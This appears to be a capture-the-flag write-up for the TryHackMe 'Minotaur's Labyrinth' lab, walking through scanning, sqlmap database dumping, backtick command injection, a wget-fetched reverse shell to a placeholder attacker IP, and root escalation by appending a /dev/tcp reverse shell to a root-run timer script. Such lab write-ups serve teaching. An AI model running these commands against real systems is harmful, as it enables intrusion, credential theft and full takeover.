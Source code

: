 #  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)

First an initial scan with rustscan:


<code>rustscan -a 10.10.139.83 --ulimit 5000</code>  


![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>nmap -sV -sC 10.10.139.83</code>  

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what the fuzz is all about:

<code>ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>  

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..
In the ftp directories is some rather interesting stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

message.txt:  
<code>Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur</code>

Let's explore further :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand we got the fist flag!!!

keep_in_mind.txt (this info will come in handy a bit later):  
<code>Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur</code>

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:  
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to finish:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)

Going through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got in :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)

So far we have two names: 'Daedalus' and 'Minotaur'.  
Plus we can appearantly search for 'People' and 'Creatures'.  
Let's do that...

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>sqlmap -r req_master.txt --dbs --batch --time-sec=3</code>

Aaaaand we get a hit:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)

![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)

As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login  
before, let's find out if we get in with these creds, after a short trip to Crackstation..  
(https://crackstation.net)

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff".  
That sounds interesting enough to follow that. Who could resist that..?

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)

The link leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice.  
No matter what I was trying in regards to command injection, it didn't get me command execution.  
This site led me finally to using backticks, instead of quotation marks.  
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

\`ls\` shows us:

![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

So we got rce, let's explore that. And we can find flag3 in the user home directory, which we also are able to read.  

Let's try \`cat /home/user\`

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)

Okidoky.. Let's get a shell then. I had to try a few things and ended up with:

\`/usr/bin/wget YOUR-IP/rev.txt -O /tmp/rev.sh\`

Content of rev.txt ([https://www.revshells.com](https://www.revshells.com)):
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell:  
  
<code>python3 -m http.server 80</code>  
  
Then set up a listener  
  
<code>nc -lnvp 9001</code>
  
and execute the freshly downloaded reverse shell on the target:  
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeas.sh and searching around for a bit, I got a tip. Remember the content of one of the files we  
found in the ftp earlier. Where a timer is mentioned? 
There's a file in the root directory that we can write to.  
Plus, it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>echo 'sh -i >& /dev/tcp/YOUR-IP/6666 0>&1' >> timer.sh</code>  

Start another listener and it will connect without any further doing. Now you're root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)

DONE :)










































